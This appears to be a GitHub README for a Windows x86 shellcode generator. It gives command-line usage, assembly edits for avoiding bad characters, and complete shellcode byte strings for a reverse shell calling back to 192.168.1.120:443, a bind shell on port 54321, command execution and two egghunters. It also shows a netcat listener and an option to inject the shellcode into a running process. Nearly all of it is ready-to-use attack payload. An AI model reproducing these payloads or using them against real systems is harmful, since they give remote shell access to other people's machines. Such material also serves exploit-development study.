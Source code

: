 # Windows x86 Shellcode Generator

## Usage

```
$ python3 win_x86_shellcoder.py -h
usage: win_x86_shellcoder.py [-h] [-b BADCHARS] [-r] [-w] [-e {process,thread,none}] {reverse,bind,exec,egghunter} ...

Windows x86 Shellcode Generator

positional arguments:
  {reverse,bind,exec,egghunter}
                        Shellcode mode
    reverse             Reverse shell
    bind                Bind shell
    exec                Execute command
    egghunter           Egghunter

optional arguments:
  -h, --help            show this help message and exit
  -b BADCHARS, --badchars BADCHARS
                        Bad chars
  -r, --run_shellcode   Run shellcode
  -w, --use_windbg      Set int3 for windbg
  -e {process,thread,none}, --exit_func {process,thread,none}
                        Exit Function
```


## Find Bad Chars

`-b` is an option to specify bad chars. The specified bad chars are automatically removed from function name hashes, etc. If there are any remaining bad chars that cannot be removed, output will indicate which instructions contain bad chars as `[x]`.

```
$ python3 win_x86_shellcoder.py -b '\x00\x0a\x0d\x20\x30' reverse -i 192.168.1.120 -p 443
# shellcode size: 0x151 (337)
...
[ ] 60           : pushal
[ ] 31c9         : xor ecx, ecx
[x] 648b7130     : mov esi, dword ptr fs:[ecx + 0x30]
[ ] 8b760c       : mov esi, dword ptr [esi + 0xc]
[ ] 8b761c       : mov esi, dword ptr [esi + 0x1c]
[ ] 8b5e08       : mov ebx, dword ptr [esi + 8]
[x] 8b7e20       : mov edi, dword ptr [esi + 0x20]
[ ] 0fb6461e     : movzx eax, byte ptr [esi + 0x1e]
[ ] 8945f8       : mov dword ptr [ebp - 8], eax
[ ] 56           : push esi
...
```

We can manually remove the remaining bad chars by replacing the detected instruction with another instruction. For example, 0x20 and 0x30 can be removed by replacing the instructions in [find_and_call.py](coder/find_and_call.py) as follows.

```asm
find_and_call:
    pushad                          // Save all registers
    xor   ecx, ecx                  // ECX = 0
    inc   ecx                       // * FOR BAD CHAR 0x30 *
    mov   esi,fs:[ecx+0x2F]         // ESI = &(PEB) ([FS:0x30])
    dec   ecx                       // * FOR BAD CHAR 0x30 *
    mov   esi,[esi+0x0C]            // ESI = PEB->Ldr
    mov   esi,[esi+0x1C]            // ESI = PEB->Ldr.InInitOrder

next_module:
    mov   ebx, [esi+0x08]           // EBX = InInitOrder[X].base_address
    inc   esi                       // * FOR BAD CHAR 0x20 *
    mov   edi, [esi+0x1F]           // EDI = InInitOrder[X].module_name
    dec   esi                       // * FOR BAD CHAR 0x20 *
    movzx eax, byte ptr [esi+0x1e]  // EAX = InInitOrder[X].module_name_length
    mov   [ebp-0x8], eax            // Save ModuleNameLength for later
    push  esi                       // Save InInitOrder for next module
```


## Examples

### Reverse Shell

```
$ python3 win_x86_shellcoder.py reverse -i 192.168.1.120 -p 443
# shellcode size: 0x151 (337)
shellcode = b'\x89\xe5\x81\xc4\xf0\xf9\xff\xff\xeb\x06^\x89u\x04\xebN\xe8\xf5\xff\xff\xff`1\xc9d\x8bq0\x8bv\x0c\x8bv\x1cV\x8b^\x08\x0f\xb6F\x1e\x89E\xf8\x8bC<\x8b|\x03x\x01\xdf\x8bO\x18\x8bG \x01\xd8\x89E\xfc\xe3\x1dI\x8bE\xfc\x8b4\x88\x01\xde1\xc0\x8bU\xf8\xfc\xac\x84\xc0t\x0e\xc1\xca\x02\x01\xc2\xeb\xf4\xeb)^\x8b6\xeb\xbd;T$(u\xd6\x8bW$\x01\xdaf\x8b\x0cJ\x8bW\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89D$ ^aYZQ\xff\xe0\xb8\xb4\xb3\xff\xfe\xf7\xd8Ph32.DhWS2_Thhz\xc4v\xffU\x04\x89\xe01\xc9f\xb9\x90\x05)\xc8P1\xc0f\xb8\x02\x02Ph\x96 \x9e\xcc\xffU\x041\xc0PPP\xb0\x06P,\x05P@Phf ^\x81\xffU\x04\x89\xc61\xc0PPh\xc0\xa8\x01xf\xb8\x01\xbb\xc1\xe0\x10f\x83\xc0\x02PT_1\xc0PPPP\x04\x10PWVh\x95 ^W\xffU\x04VVV1\xc0\x8dH\rP\xe2\xfd\xb0DPT_f\xc7G,\x01\x01\xb8\x9b\x87\x9a\xff\xf7\xd8Phcmd.\x89\xe3\x89\xe01\xc9f\xb9\x90\x03)\xc8PW1\xc0PPP@PHPPSPh\xc7(\xaa\x0b\xffU\x041\xc9Qj\xffh\xd2U\xa9.\xffU\x04'
```

### Bind Shell

```
$ python3 win_x86_shellcoder.py bind -p 54321
# shellcode size: 0x162 (354)
shellcode = b'\x89\xe5\x81\xc4\xf0\xf9\xff\xff\xeb\x06^\x89u\x04\xebN\xe8\xf5\xff\xff\xff`1\xc9d\x8bq0\x8bv\x0c\x8bv\x1cV\x8b^\x08\x0f\xb6F\x1e\x89E\xf8\x8bC<\x8b|\x03x\x01\xdf\x8bO\x18\x8bG \x01\xd8\x89E\xfc\xe3\x1dI\x8bE\xfc\x8b4\x88\x01\xde1\xc0\x8bU\xf8\xfc\xac\x84\xc0t\x0e\xc1\xca\x05\x01\xc2\xeb\xf4\xeb)^\x8b6\xeb\xbd;T$(u\xd6\x8bW$\x01\xdaf\x8b\x0cJ\x8bW\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89D$ ^aYZQ\xff\xe0\xb8\xb4\xb3\xff\xfe\xf7\xd8Ph32.DhWS2_Th\x92\xacm\xcc\xffU\x04\x89\xe01\xc9f\xb9\x90\x05)\xc8P1\xc0f\xb8\x02\x02Ph\xc8\xcb\xa7;\xffU\x041\xc0PPP\xb0\x06P,\x05P@Ph\x19\xe9\xd9/\xffU\x04\x89\xc61\xc0PPPf\xb8\xd41\xc1\xe0\x10\x04\x02PT_1\xc0\x04\x10PWVhg`\x05\x8b\xffU\x041\xc0PVh\xc9\xc6\xecE\xffU\x041\xc0PPVhOa\x0c\x9a\xffU\x04\x89\xc6VVV1\xc0\x8dH\rP\xe2\xfd\xb0DPT_f\xc7G,\x01\x01\xb8\x9b\x87\x9a\xff\xf7\xd8Phcmd.\x89\xe3\x89\xe01\xc9f\xb9\x90\x03)\xc8PW1\xc0PPP@PHPPSPh\xd9zI\x06\xffU\x041\xc9Qj\xffh\xce\x83\xcbg\xffU\x04'
```


### Execute Command

```
$ python3 win_x86_shellcoder.py exec -c 'calc'
# shellcode size: 0xb4 (180)
shellcode = b'\x89\xe5\x81\xc4\xf0\xf9\xff\xff\xeb\x06^\x89u\x04\xebN\xe8\xf5\xff\xff\xff`1\xc9d\x8bq0\x8bv\x0c\x8bv\x1cV\x8b^\x08\x0f\xb6F\x1e\x89E\xf8\x8bC<\x8b|\x03x\x01\xdf\x8bO\x18\x8bG \x01\xd8\x89E\xfc\xe3\x1dI\x8bE\xfc\x8b4\x88\x01\xde1\xc0\x8bU\xf8\xfc\xac\x84\xc0t\x0e\xc1\xca\x03\x01\xc2\xeb\xf4\xeb)^\x8b6\xeb\xbd;T$(u\xd6\x8bW$\x01\xdaf\x8b\x0cJ\x8bW\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89D$ ^aYZQ\xff\xe0\xb8\x01\x02\x02\x025\x01\x03\x03\x03Phcalc\x89\xe11\xd2RQhq\x90H\xaa\xffU\x041\xc9Qj\xffh\x97\xaae}\xffU\x04'
```


### Egghunter

#### Use ntaccess

```
$ python3 win_x86_shellcoder.py egghunter ntaccess -t w00tw00t
# shellcode size: 0x24 (36)
shellcode = b'f\x81\xca\xff\x0fBR\xb8:\xfe\xff\xff\xf7\xd8\xcd.<\x05Zt\xeb\xb8w00t\x89\xd7\xafu\xe6\xafu\xe3\xff\xe7'
```


#### Use SEH

```
$ python3 win_x86_shellcoder.py egghunter seh -t w00tw00t
# shellcode size: 0x45 (69)
shellcode = b'\xeb*Y\xb8w00tQj\xff1\xdbd\x89#\x83\xe9\x04\x83\xc3\x04d\x89\x0bj\x02Y\x89\xdf\xf3\xafu\x07\xff\xe7f\x81\xcb\xff\x0fC\xeb\xed\xe8\xd1\xff\xff\xffj\x0cY\x8b\x04\x0c\xb1\xb8\x83\x04\x08\x06X\x83\xc4\x10P1\xc0\xc3'
```


## Debug Shellcode (for Windows Only)

### Inject shellcode into a Python process

`-r`, `--run_shellcode`

```
python3 win_x86_shellcoder.py -r reverse -i 192.168.1.120 -p 443
```

On 192.168.1.120

```
nc -nlvp 443
```


### Insert int3 for debugger into shellcode

`-w`, `--use_windbg`

```
python3 win_x86_shellcoder.py -r -w reverse -i 192.168.1.120 -p 443
```

